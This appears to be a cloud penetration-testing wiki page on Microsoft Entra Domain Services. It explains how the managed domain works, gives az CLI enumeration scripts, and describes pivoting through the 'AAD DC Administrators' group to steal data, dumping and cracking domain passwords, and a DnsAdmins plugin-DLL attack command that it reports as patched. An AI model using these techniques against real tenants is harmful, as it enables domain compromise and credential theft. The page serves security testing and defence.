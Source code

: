 # Az - Microsoft Entra Domain Services

## Domain Services

Microsoft Entra Domain Services allows to deploy an Active Directory in Azure without needing to manage Domain Controllers (actually you don't even have access to them).

Its main goal is to allow you to run legacy applications in the cloud that can't use modern authentication methods, or where you don't want directory lookups to always go back to an on-premises AD DS environment.

Note that in order to synchronize the users generated in Entra ID (and not synchronized from other active directories) to the AD domain service you need to **change the password of the user** to a new one so it can be synchronized with the new AD. Actually, the user isn't synchronized from Microsoft Entra ID to Domain Services until the password is changed.

> [!WARNING]
> Even if you are creating a new active directory domain you won't be able to completely managed it (unless without exploiting some misconfigurations), which means that by default for example you cannot create users in the AD directly. You create them by **synchronizing users from Entra ID.** You can indicate to synchronize all users (even those synced from other on-premise ADs), only cloud users (users created in Entra ID), or even **filter them more**.

> [!NOTE]
> In general, due to the lack of flexibity on the configuration of the new domain and the fact that ADs are usually already on-premise, this is not the main integration between Entra ID and AD, but still interesting to know how to compromise it.

### Pivoting

Members of the generated **`AAD DC Administrators`** group are granted local admin permissions on VMs that are domain-joined to the managed domain (but not in the domain controllers) because they are added into the local administrators group. Members of this group can also use **Remote Desktop to connect remotely to domain-joined VMs**, and are also members of the groups:

- **`Denied RODC Password Replication Group`**: This is a group that specifies users and groups whose passwords cannot be cached on RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: This group allows members to create Group Policies in the domain. However, its members can't apply group policies to users or group or edit existing GPOs, so it's not that interesting in this environment.
- **`DnsAdmins`**: This group allows to manage the DNS settings and was abused in the past to [escalate privileges and compromise the domain](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), however after testing the attack in this environment it was checked that the vulnerability is patched:

```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```

Note that to grant these permissions, inside the AD the group **`AAD DC Administrators`** group is made a member of the previous groups, and also the GPO **`AADDC Computers GPO`** is adding as Local Administrators all the members of the domain group **`AAD DC Administrators`**.

Pivoting from Entra ID to an AD created with Domain Services is straightforward, just add a user into the group **`AAD DC Administrators`**, access via RDP to any/all the machines in the domain and you will be able to steal data and also **compromise the domain.**

However, pivoting from the domain to Entra ID is not as easy as nothing from the domain is being synchronized into Entra ID. However, always checn the metadata to all the VMs joined as their assigned managed identities might have interesting permissions. Also **dump all the users passwords from the domain** and try to crack them to then login into Entra ID / Azure.

> [!NOTE]
> Note that in the past other vulnerabilities in this managed AD were found that allowed to compromise the DCs, [like this one](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). An attacker compromising the DC could very easily maintain persistence without the Azure admins noticing or even being able to remove it.

### Enumeration

```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
  --url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
  --body '{
    "subscriptions": [
      "0ce1297c-9153-425d-3229-f51093614377"
    ],
    "query": "resources | where type == \"microsoft.aad/domainservices\"",
    "options": {
      "$top": 16,
      "$skip": 0,
      "$skipToken": ""
    }
  }'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
  nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)
  
  for nic_id in $nic_ids; do
    subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)
    
    if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
      echo "VM Name: $vm_name, Resource Group: $resource_group"
    fi
  done
done <<< "$vm_list"
```

